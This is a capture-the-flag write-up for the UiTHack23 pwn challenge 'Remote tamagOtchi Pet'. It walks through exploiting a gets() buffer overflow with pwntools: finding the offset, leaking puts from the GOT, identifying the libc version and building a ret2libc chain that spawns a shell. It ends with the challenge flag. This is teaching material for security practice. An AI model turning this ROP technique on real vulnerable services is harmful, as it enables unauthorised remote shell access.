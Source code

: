 > # Pwn - Remote tamagOtchi Pet
> > Pwn - 500pts
>
> You might remember the Tamagotchi from the late 90's or early 2000's. Good news, we have improved the tamagotchi by putting everyone's favourite animal on the web so you don't loose it!
>
> Here's your [tamagotchi](src/tamagotchi)
>
> Connect with netcat to play with your tamagotchi
> ```command
> $ nc motherload.td.org.uit.no 6400
> ```
>
> The flag is located in the home directory on the server.

## Writeup
Looking at the challenge text we see that we can expect this to be a ROP-challenge (capitalized letters in challenge name). Another way to see this is a ROP-challenge is that we need to get a shell to view the flag, and does not have function clearly giving us the shell.

To get a shell on the server we need the following:
- The offset to the rip-register
- The libc version being used by the server
- The address of the *system()* command so that we can call `/bin/sh`

Looking through the source code we see that `gets()` have been used two places in the code, and as we know this indicates a buffer overflow. We choose to exploit the one in the `feed()` function as it requires less user-input to get there.

### Finding the offset
As in the mp3_player challenge we can find the offset with [find_offset.py](find_offset.py)
```command
$ python3 find_offset.py
[+] Parsing corefile...: Done
[+] Offset is 40
```

### Finding the libc
To find the libc version used by the server we can leak the address of one or multiple functions that are loaded into the GOT (global offset table). <br>
This can be done by overflowing the buffer *gets()* writes to, and call *puts()* or *printf()* to print a function address to the terminal. <br>
The following ROP-chain would look like this
```python
from pwn import *

context.arch = "amd64"
elf = ELF("./tamagotchi", checksec=False)
p = elf.process()

offset = 40
# Create the ROP chain to overflow the buffer with
rop = ROP(elf)
rop.raw(b"A"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["feed"])

# Send the payload
p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(rop.chain())
p.recvuntil(b"\n\n")
```
Overflowing the buffer with this payload will make the program print the address of the *puts()* function for us (which we can convert from bytes to hex)
```python
puts_leak = u64(p.recvuntil(b"\n").rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
```
```command
$ python3 exploit.py
<snip>
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f26cebb4420
<snip>
```

Knowing the address in libc for the *puts()* function we can look up which version of libc it is with e.g [libc.rip](https://libc.rip/). Multiple possible versions show up here, so we could leak the address of another function to make sure we get the correct one by changing from the puts function to another function in the GOT (e.g printf).
```python
rop.puts(elf.got["printf"])
```

We find out that the libc version being used is (both works)
```
libc6_2.31-0ubuntu9.8_amd64
libc6_2.31-0ubuntu9.9_amd64
```

### Getting shell
Knowing the libc version we now can call `system("/bin/sh")` to get a shell on the box.

To do such we load in the libc into our exploit script, and set the base address of the libc so that it matches our puts leak.
```
libc = ELF("./libc.so", checksec=False)
libc.address = puts_leak - libc.symbols["puts"]
```

We can then craft a ROP-chain calling `system("/bin/sh")` for us when we overflow the same buffer once again (remember that we called the *feed()* function at the end of our first ROP-chain). Note that we need the ret-instruction in out ROP-chain to maintain stack-alignment, or else the payload won't work.
```python
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"A"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

p.recvuntil(b">> ")
p.sendline(rop.chain())
p.interactive()
```
```command
$ python3 exploit.py
[*] Loaded 14 cached gadgets for './tamagotchi'
[*] Puts address found: 0x7f6e88316420
[*] Loaded 196 cached gadgets for './libc.so'
[*] Switching to interactive mode
Your fed your pet with AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a@
You pet is full

$ ls
flag.txt
tamagotchi
$ cat flag.txt
UiTHack23{t4ma_G0tcha_5h3ll}
```
```
UiTHack23{t4ma_G0tcha_5h3ll}
```
